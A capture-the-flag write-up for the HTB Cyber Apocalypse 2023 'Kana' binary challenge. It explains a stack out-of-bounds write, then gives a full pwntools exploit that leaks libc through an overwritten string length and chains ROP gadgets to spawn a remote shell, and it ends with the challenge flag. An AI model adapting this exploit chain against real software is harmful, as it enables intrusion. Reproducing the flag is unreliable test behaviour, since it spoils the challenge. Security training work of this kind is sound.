


# Kana - HTB Cyber Apocalypse 2023

## Description
To facilitate communication between certain civilizations, a converter was developed. But can this converter be trusted to keep their messages secure?

## Solution
There is a weird buffer overflow/OOB write inside of the function which prints the banner and takes our input:

```C
  memset(&local_78,0,0x30);
  while( true ) {
    read(0,(void *)((long)&local_78 + (long)local_1c),1);
    if (*(char *)((long)&local_78 + (long)local_1c) == '\n') break;
    local_1c = local_1c + 1;
  }
  *(undefined *)((long)&local_78 + (long)local_1c) = 0;
  atoi((char *)&local_78);
  return;
```

This just reads until it hits a newline. However local_1c is on the stack after our input. If we try to overflow with A's no segmentation fault will happen.

This is because we set our indexing to where we should write, to something lower than what was there before. Therefore the rest of our input is read into our actual buffer.

An example of triggering the buffer overflow can be seen here:
```py
from pwn import *


io = process("./kana")
padding = b'A'*92 + b'\x5d\x00\x00\x00' + b'A'*0x100

io.send(padding)

io.interactive()
```

Since our last index in our buffer is 0x5d, we overwrite the index with this number, which causes us to be able to overflow further. However just overflowing isn't enough as the binary has PIE:

Checksec:
```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled
```

Because of this we need to figure out a way to leak. Probably abusing the indexing mechanism to write to something further down the stack than the return pointer of the function.

It took a while to figure out what to overwrite. But I then realized that all strings given to C++'s `cin` function are stored with the length on top of it. We can see then if we create a new kana and call it `CCCCC` for example:



We can easily test this theory by setting the value to something high. Like 0x80:



This makes it a primary target, as we can just overwrite the size of the string to be something way bigger, which then results in the program printing out a bunch of pointers on the stack when printing our kana.

After some calculation I found that we need to set our indexer to 0xc7, since our the length of our kana starts at 0xc8. We can then overwrite this to be 0xf0 and receive a leak.

Once the leak is received, this just becomes normal ROP inside of libc.


Exploit:
```py
from pwn import *

io = remote("46.101.80.159",31595)


io.recvuntil(b'>>')
io.sendline(b'4')
io.recvuntil(b'>>')
io.sendline(b'CCCCCCCCCCCC')
io.recvuntil(b'>>')
#Overwrite the kana length to be 0xf0 instead
io.sendline(b'A'*92+b'\xc7'+p8(0xf0))

#Receive leak
io.recvuntil(b' : ')
libc_leak = u64(io.recvline()[0x78:0x80])
libc_base = libc_leak - 0x29d90
print(f"LIBC LEAK: {libc_base:#x}")

#Calc gadgets
poprdi = p64(libc_base+0x000000000002a3e5)
poprsi = p64(libc_base+0x000000000002be51)
poprdx = p64(libc_base+0x000000000011f497)
poprax = p64(libc_base+0x0000000000045eb0)
binsh = p64(libc_base+0x001d8698)
syscall = p64(libc_base+0x0000000000091396)


#Pop shell
io.recvuntil(b'>>')
padding = b'A'*92+b'\x5d\x00\x00\x00'+b'B'*23

payload = [
    padding,
    poprdi,
    binsh,
    poprsi,
    p64(0),
    poprdx,
    p64(0),
    p64(0xdeadbeef),
    poprax,
    p64(59),
    syscall
]
payload = b''.join(payload)
io.sendline(payload)


io.interactive()
```

## Flag
`HTB{7e6bcd08450c69d3e9e8f225aaf7f90d}`
